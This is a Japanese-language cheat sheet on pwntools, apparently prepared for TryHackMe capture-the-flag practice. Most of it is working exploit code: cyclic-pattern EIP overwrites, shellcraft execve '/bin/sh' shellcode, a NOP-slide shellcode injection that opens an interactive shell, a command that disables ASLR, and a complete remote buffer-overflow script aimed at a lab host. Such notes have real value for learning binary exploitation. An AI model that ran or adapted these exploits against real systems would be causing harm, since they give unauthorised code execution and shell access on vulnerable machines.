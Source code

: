# pwntools

https://github.com/Gallopsled/pwntools

https://tryhackme.com/room/introtopwntools

## インストール

kali の場合、pwn と打ってインストールされていなければインストールするか聞かれるので Yes と答えるだけ。

## コマンド

### checksec

```shell
# 実行ファイルで有効になっているセキュリティ機構を調べる
checksec --file <file>
```

### cyclic

```shell
cyclic 100 > pattern

cat pattern
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
```

```shell
# バッファオーバーフローをテストする
gdb> r < pattern
```

eip が `jaaa` で上書きされていたとして、その部分を目的の関数アドレスにしたペイロードを作成したい場合。

```python
# gdb> disassemble <function> 等で関数アドレスを得る
from pwn import *

padding = cyclic(cyclic_find('jaaa'))
eip = p32(0x08048536)
payload = padding + eip
print(payload)
```

### shellcraft

```shell
# シェルコードのアセンブラ出力
shellcraft i386.linux.execve "/bin///sh" "['sh', '-p']" -f a

# シェルコードのバイトコード出力
shellcraft i386.linux.execve "/bin///sh" "['sh', '-p']" -f s
```

シェルコードを埋め込む例

```python
from pwn import *

proc = process('./intro2pwnFinal')
proc.recvline()

padding = cyclic(cyclic_find('taaa'))
eip = p32(0xffffd510+200)
nop_slide = "\x90"*1000
# ブレークポイント命令（シェルコードを入れる前のテスト用）
# shellcode = "\xcc"
shellcode = "jhh\x2f\x2f\x2fsh\x2fbin\x89\xe3jph\x01\x01\x01\x01\x814\x24ri\x01,1\xc9Qj\x07Y\x01\xe1Qj\x08Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80"
payload = padding + eip + nop_slide + shellcode

proc.send(payload)

# シェルと通信するためインタラクティブが必要
proc.interactive()
```

（参考）ASLR（アドレス空間配置のランダム化）無効化

```shell
echo 0 | tee /proc/sys/kernel/randomize_va_space
```

## ネットワーク経由

```python
from pwn import *

connect = remote('127.0.0.1', 1336)
print(connect.recvn(18))
payload = "A"*32
payload += p32(0xdeadbeef)
connect.send(payload)

print(connect.recvn(34))
```

## バイナリ解析

```python
# ライブラリをロード
>>> from pwn import *

# バイナリをロード
>>> binary = context.binary = ELF("./DearQA-1627223337406.DearQA")

# 関数のアドレス
>>> hex(binary.symbols['vuln'])
```

## 例

### バッファオーバーフロー

```shell
#!/usr/bin/env pyhon3
from pwn import *
import sys

host = "10.10.37.23"
port = 5700
context(terminal = ['tmux', 'new-window'])

binary = context.binary = ELF("./DearQA-1627223337406.DearQA")
context(os = "linux", arch = "amd64")
connect = remote(host, port)
log.info("[+] Starting buffer Overflow")
connect.recvuntil(b"What's your name: ")
log.info("[+] Crafting payload")
payload = b'A' * 40
payload += p64(0x00400686)
log.info("[+] Sending Payload to the remote server")
connect.sendline(payload)
connect.interactive()
```

上記の例で、binary と 2 か所の context は、コメントアウトしても機能する。
